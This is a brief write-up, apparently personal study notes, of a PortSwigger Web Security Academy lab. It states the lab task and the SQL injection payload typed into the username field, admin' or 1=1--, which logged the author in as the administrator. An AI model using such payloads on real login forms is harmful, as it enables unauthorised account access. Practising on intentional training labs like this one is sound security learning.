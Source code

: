 <mark style="background: #FF5582A6;">Question</mark>

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user.

<mark style="background: #BBFABBA6;">Answer</mark>

Target URL - https://0ab9005904d7ad93c046d38400630016.web-security-academy.net/


https://0ab9005904d7ad93c046d38400630016.web-security-academy.net/login


After i put this in the username field


Username: admin' or 1=1--
Password: pass

i was able to login as admin and solve the lab



